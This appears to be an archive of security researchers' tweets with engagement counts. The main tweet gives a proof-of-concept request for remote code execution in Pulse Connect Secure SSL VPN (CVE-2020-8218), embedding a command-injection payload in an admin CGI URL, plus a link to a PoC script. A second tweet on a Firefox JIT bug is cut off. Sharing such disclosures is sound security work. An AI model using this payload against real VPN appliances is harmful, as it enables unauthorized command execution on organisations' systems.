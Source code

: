 <table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>130</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1301021388455596032 _at 2020-09-02, 04:57:25_**
<blockquote>
RCE in Pulse Connect Secure SSL VPN (CVE-2020-8218) 

[Proof Of Concept]
/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/XhlYdrrWqB https://t.co/C4mjbngIq0
</blockquote>

* https://github.com/withdk/pulse-gosecure-rce-poc/blob/master/pulse-gosecure-rce.py

<table><tr>
<td><img src="pictures/d5b4a6babe05ff52cdb5b16a6e994d54dd047645189e7bd03c5e31b0869805f4.jpg" alt="d5b4a6babe05ff52cdb5b16a6e994d54dd047645189e7bd03c5e31b0869805f4.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>126</code></td>
<td>Favorites: <code>296</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1300978679518867457 _at 2020-09-02, 02:07:42_**
<blockquote>
CVE-2019-17026 (Firefox JIT bug) 
